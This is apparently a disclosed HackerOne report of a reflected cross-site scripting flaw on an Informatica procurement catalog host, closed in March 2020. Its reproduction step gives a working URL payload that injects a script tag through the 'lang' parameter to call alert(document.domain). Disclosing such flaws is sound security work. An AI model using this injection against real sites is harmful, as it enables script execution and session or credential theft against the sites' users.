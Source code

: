 # RXSS in http://procurement-businesscatalog.informatica.com

## Report Details
- **Report ID**: 831803
- **URL**: https://hackerone.com/reports/831803
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2020-03-26T04:38:10.132Z
- **Disclosed**: 2020-03-27T10:04:59.549Z

## Reporter
- **Username**: min4tor
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
Hi, this is a simple XSS in the host below:

Reproduction Steps
Visit the following URL: `http://procurement-businesscatalog.informatica.com/JPBC/login.hbc?lang=%3C/SCRIPT%3E%3CSCRIPT%3Ealert(document.domain);%3C/SCRIPT%3E`

{F760997}

## Impact

Standard XSS impact.

## Attachments
- XSS.png
